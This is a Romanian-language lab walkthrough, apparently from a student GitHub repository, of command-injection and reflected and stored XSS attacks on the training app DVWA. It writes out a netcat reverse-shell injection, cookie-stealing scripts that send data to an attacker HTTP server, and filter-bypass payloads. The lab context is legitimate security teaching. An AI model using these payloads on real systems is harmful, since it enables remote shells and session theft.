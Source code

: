 ### Atac HTTP:
  <!-- - [Despre HTTP / HTTPS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_http_https.md) -->
  - In scop didactic, am folosit **DVWA** (Damn Vulnerable Web App). Pentru instalare si informatii aditionale: [link](https://github.com/digininja/DVWA).
  - Cuprins:
    - [Command Execution](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#command-execution)
    - [XSS reflected](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#xss-reflected)
    - [XSS stored](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#xss-stored)  
 
## **Command Execution**
   <!-- - [Despre Command Injection](https://github.com/Dani780-C/Cyber-security/blob/main/learn/command_injection.md) -->
   - **Not hacked:** *introducem orice adresa IP (ex: 192.168.56.101)*  
   
     Raspuns:  
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_execution_normal.png)  
     Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_execution_low_nothacked.pcapng)  
   - **Hacked:**  
   
     **LOW**  
        - Sursa codului PHP:  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/source_code_low_command_execution.png)  
        
        Pentru ca nu avem niciun fel de validare pe input-ul form-ului, putem scrie orice adresa IP urmat de `;` sau `&&`.  
        De exemplu, executia unui reverse shell: intr-un terminal separat se va executa un listener `nc -lvp 4444`, iar in form-ul aplicatiei se va introduce `192.168.56.101; nc -e /bin/bash 192.168.56.101 4444`  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_reverse_shell.png)  
        
        Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_injection_reverse_shell.pcapng)  
       
     **MEDIUM**  
        - Sursa codului PHP:  
         
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_source_code_medium.png)  
        
        Codul PHP respectiv va inspecta string-ul primit din form si va scoate `;` si `&&`. Daca vom scrie `192.168.56.101; ls` nu se va executa comanda. Daca vom scrie `&` vom pune comanda `ping <adresa IP>` in background si astfel se va rula si urmatoarea comanda inlantuita in string-ul input-ului. De exemplu, vom introduce `192.168.56.101 & hostname & ls & pwd`. De asemenea, putem scrie `<orice string, dar nu o adresa IP valida> || ls`.  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_medium_1.png)  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_2.png)  
        
## **XSS (Reflected)**  
  <!-- - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md) -->
  - **Hacked:**  
    
    **LOW**
      - Sursa codului PHP:

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_low.png)  
      
      Nu avem validare pe string-ul introdus de user. Putem folosi tag-ul `<script></script>` pentru a injecta cod.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
       
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_redirect_page_to_kali.png)  
      
    **MEDIUM**  
       - Sursa codului PHP:  

       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_source_code_medium_xss_reflected.png)  
       
       Urmatorul cod va scoate toate aparitiile string-ului `<script>` din input.  
       Pentru a putea injecta cod pentru a fi rulat, putem inlocui `<script>` cu `<SCRIPT>` sau `<script>` cu `<scr<script>ipt>`.  
       Spre exemplu, putem injecta: `<SCRIPT>alert(document.cookie)</script>` sau `<scr<script>ipt>alert(document.cookie)</script>`.  
       
       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_medium_hacked.png)  

## **XSS (Stored)**  
  <!-- - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md) -->
  - **Hacked:**

    **LOW**  
      - Sursa codului PHP:  

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_stored_xss_source_code_low.png)  
      
      Nu este nicio validare pe string-ul din form.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form in campul message `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
      Pe masina cu Windows 11, daca un user acceseaza pagina cu XSS stored, codul i se va executa si lui, iar pagina lui va fi redirectionata la `http://192.168.56.101:4444`.  
      
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_stored_windows11_cookie.png)  
